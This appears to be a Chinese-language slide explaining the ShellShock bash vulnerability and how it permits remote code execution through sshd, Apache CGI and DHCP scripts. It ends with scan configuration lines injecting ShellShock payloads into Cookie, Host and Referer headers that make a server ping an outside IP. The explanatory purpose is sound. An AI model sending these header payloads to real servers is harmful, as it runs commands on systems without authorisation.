

# Bash Bugs -- ShellShock
这个Bug如果只在本地出现的话，基本可以忽略，但是这个Bug的严重性在于它能注入到协议请求里，从而能在远程服务器上执行，并可以对服务器进行攻击。

4.3版本之前的GNU bash会对环境变量值中函数定义后的字符串进行处理，这使得远程攻击者可以精心布局从而执行任意的代码，已知的途径包括OpenSSH sshd中的ForceCommand特性，Apache HTTP服务器中的modcgi以及modcgid模块，未知DHCP客户端所执行的脚本，以及其它在bash中设置环境变量的场景中都会出现跨越权限边界的问题。
http-user-agent = shellshock-scan (http://blog.erratasec.com/2014/09/bash-shellshock-scan-of-internet.html)
http-header = Cookie:() { :; }; ping -c 3 209.126.230.74
http-header = Host:() { :; }; ping -c 3 209.126.230.74
http-header = Referer:() { :; }; ping -c 3 209.126.230.74